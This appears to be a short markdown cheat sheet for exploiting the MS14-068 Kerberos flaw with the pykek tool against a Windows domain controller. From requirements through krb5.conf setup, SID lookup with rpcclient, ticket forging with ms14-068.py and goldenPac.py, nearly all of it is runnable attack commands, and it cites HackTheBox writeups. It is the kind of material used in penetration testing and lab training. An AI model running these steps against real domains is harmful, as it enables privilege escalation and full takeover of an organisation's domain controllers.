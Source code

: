 # Pykek Exploit

## Requirements

```
apt-get install krb5-user cifs-utils rdate
```

## Setup

* add DC to hosts
* add DC to resolv.conf

## configure krb5.conf

```

[libdefaults]
	default_realm = DOMAIN.LOCAL

# The following krb5.conf variables are only for MIT Kerberos.
	kdc_timesync = 1
	ccache_type = 4
	forwardable = true
	proxiable = true

[realms]
       DOMAIN.LOCAL = {
	kdc = server.domain.local:88
	admin_server = server.domain.local
	default_domain = DOMAIN.LOCAL 
	}
[domain_realm]
	.domain.internal = DOMAIN.LOCAL
	domain.internal = DOMAIN.LOCAL
```

## Initialize

```
rdate -n <server>
kinit <user>
klist
```

## Get SID

```
rpcclient -U <user>  <server> > lookupnames <user>
```

## Pykek

```
git clone https://github.com/mubix/pykek.git

python ms14-068.py -u <user>@DOMAIN.LOCAL -s S-1-5-21-4220043660-4019079961-2895681657-1103 -d <server>

cp TGT_<user>@DOMAIN.LOCAL.ccache /tmp/krb5cc_0

goldenPac.py DOMAIN.LOCAL/<user>@<server>
```

## References

* https://fzuckerman.wordpress.com/2016/10/09/knock-and-pass-kerberos-exploitation/
* https://www.absolomb.com/2018-02-24-HackTheBox-Mantis-Writeup/
* https://github.com/mubix/pykek
